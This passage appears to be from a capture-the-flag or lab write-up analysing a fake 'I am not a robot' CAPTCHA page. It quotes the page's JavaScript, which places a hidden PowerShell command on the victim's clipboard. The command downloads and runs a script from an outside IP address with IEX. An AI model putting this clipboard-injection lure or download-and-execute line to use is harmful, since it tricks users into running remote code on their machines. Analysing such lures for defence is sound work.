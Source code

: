 ![alt text](../assets/imgs/pikaptcha/image-25.png)

* `Ctrl + V` will paste the malcious script that was copied to our clip board by the malicous function.

 ```
 // Stage the string to be copied to the victims clipboard
   function stageClipboard(commandToRun, verification_id){

      // The string copied is the powershell command to download the malcious ps file.
      const revershell=`powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`
      const suffix = " # "
      const ploy = "... ''I am not a robot - reCAPTCHA Verification ID: "
      const end = "''"
      const textToCopy = revershell

      setClipboardCopyData(textToCopy);
   }
 ```
